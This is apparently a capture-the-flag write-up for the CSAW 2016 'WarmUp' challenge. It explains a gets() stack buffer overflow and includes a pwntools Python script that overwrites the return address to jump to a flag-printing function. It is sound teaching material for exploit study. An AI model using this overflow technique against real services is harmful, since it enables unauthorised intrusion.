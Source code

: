 # WarmUp - 50 PWN

### Introduction/First look at the program
This writeup will contain an in-depth guide for the challenge "WarmUp" from the CSAW 2016 qualifiers. I did not do this challenge when it was live but instead learned by using their archive of challenges at [365 CSAW](https://365.csaw.io/). Follow the instructions on the website if you want to register and try out these challenges yourself. It contains challenges from previous years that you can do yourself! Link is also found on the my main CTF repo.

This is what the challenge says:

![warmup](https://user-images.githubusercontent.com/41026969/50432982-6644ff00-08a3-11e9-8620-b93ddd847117.png)

##### Note: the nc address will not work for you. You would have to register on the website, download your VPN keys and you will be able to connect to your own address. 

Doing a ```file warmup``` check to see what type of filetype it is, we see it is an 64 bit ELF (executable linux file). The executable is linked above if you wish to download it yourself. This is how the program looks like when executed (after first giving it executable permission using ```chmod +x warmup```):

![warmup output](https://user-images.githubusercontent.com/41026969/50433220-a062d080-08a4-11e9-97ba-78a678393f16.png)

So when we execute the program, we see there's a header that just says ```-Warm Up-```. But the next line is interesting, we see something interesting: ```WOW: 0x40060d```. That's an interesting address...

### Inspecting program with IDA pro
Let's pop this executable into IDA pro and take a look into the ```main``` function.

![warmup ida](https://user-images.githubusercontent.com/41026969/50433411-069c2300-08a6-11e9-8f56-ef023af9ce54.png)

We see that there are two variables, one being ```char s``` that is size [128] and we also have a ```char v5``` that is of size [64]. The values that are shown (80 and 40 respectively) show the values in hex, you can right click them in IDA and display them as a decimal number.

So let's take a look of what each call does:

```write()``` in c takes in 3 arguments: the file descriptor (0 for stdin, 1 stdout, 2 stderror), the buffer variable, and the number of bytes to write.

So basically all these write functions are printing things out to us.

The ```sprintf()``` function is basically the ```printf``` function except it saves what would be printed in the buffer variable.

The last function we see is ```gets()```... THIS FUNCTION IS EXTREMELY VULNERABLE

```gets()``` does NOT check if the input is larger than the buffer size. For example, if you write a program and declare a variable ```name[5]```, and you use ```gets()``` for the user to input their name, the program will NOT check if the name they inputted was over 5 letters long and it WILL overwrite into other memory.

### The exploit/Stacks/Registers
We can use this fact to exploit the program using what's called a buffer overflow. Remember that interesting function's memory address we saw before (that was printed to the screen)? Looking into what it does in IDA we see that it will give us the flag! So knowing all the information above, we can write an exploit so that the program will instantly return to that function that will print us the flag. Though it's not as easy as inputting 64 characters... 

First off, you should read about stacks in x86 and how they behave, specifically the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) [(another resource here)](https://stackoverflow.com/questions/14765406/function-prologue-and-epilogue-in-c). Here's a great video on x86 in general: [x86 Assembly Crash Course](https://www.youtube.com/watch?v=75gBFiFtAb8&).

To put in simply terms with some visual aid, when a function is called, the function prologue starts:

1. The original function (before jumping to the function called) is stored onto the stack.
2. The Base Pointer is pushed onto the stack 
3. The Stack Pointer is made equal to the Base Pointer and is decremented to make room for variables.

As the function runs and is finished, the stack pointer is set back to equal the base pointer freeing all memory. Then the base/stack pointer is popped. Then it returns to the previous function by popping the original function's address and jumping to it.

Here's how it looks visually:

![buffer_overflow1](https://user-images.githubusercontent.com/41026969/50466083-68719100-0969-11e9-830d-73210aaec353.jpg)

Since this program is 64 bit, this means that the addresses will be 8 bytes, hence the base pointer address being stored as 8 bytes long in the stack. 

If we want to execute the buffer overflow attack to go into that specific funciton (which the address was given to us conveniently) we need to overwrite the buffer, through the base pointer, and inject an address that's 8 bytes long; because once the function is done it will instead return to the address we overwrote it in.

So we can input 72 characters (doesn't matter what character, we'll make it 'Z'). We get 72 because we need to overwrite the buffer, which is 64 bytes, and we also need to overwirte through the base pointer, which is 8 bytes (64 + 8 = 72). Then the next 8 bytes we write HAS to be the address we want the function to exit into.

Also note: since this is popped like a stack, we need to write the address backwards, for example we have the address ```0x40060d``` (also note this address is 3 bytes long so we have to add 0's in the front to make them, each digit that's shown in hex is equivalent to half a byte). Putting those 0's at the front will have no effect on what it represents, though adding it to the end will make it different. 

So this is how the address looks like:
```
0x  00  00  00  00  00  40  06  0d
    1st 2nd 3rd 4th 5th 6th 7th 8th byte
```
Writing it backwards will look like:
```
0x  0d  06  40  00  00  00  00  00 
```

So now we can write an exploit. So this code is a little different, the netcat address is different from when I first started writing this writeup (everytime I create a new VPN session the address changes) and the address to the funciton I have to jump to is different than the one in IDA, nevertheless, it's the same process.

Here's my written exploit in python, it's pretty well commented out to help:
```python
# Exploit written to do a buffer overflow
from pwn import *

# Connect to the adderss and scan until after WOW: was scanned
session = remote("10.67.0.1", 32532)
session.recvuntil("WOW:")

# the address variable will hold everything between WOW: and inculding the new line character which we remove with [:-1]
address = session.recvuntil("\n")[:-1]

# I just like to put print statements to make sure everything was inputted correctly
print(address)

# Either payload line works, the first just converts the address into int to later package into 64 byte address
# The second line is writing the address manually, remember we have to write the address backwards
# payload = "Z" * 72 + p64(int(address, 16))
payload = "Z" * 72 + "\xf6\x05\x40" + "\x00" * 5

# Sends the payload
session.sendline(payload)
session.interactive()
```
When run, this is what it outputs:
![my_exploit](https://user-images.githubusercontent.com/41026969/50530406-121c6380-0acb-11e9-9c3f-c1ef2b3a4425.png)
###### note: the ```0x4005f6``` in the output shown was the address I had to jump to. If you did the challenge live in 2016, you'd write the exploit to jump to the same address shown in IDA/the writeup.

We got the flag!
```
>FLAG{LET_US_BEGIN_CSAW_2016}
```
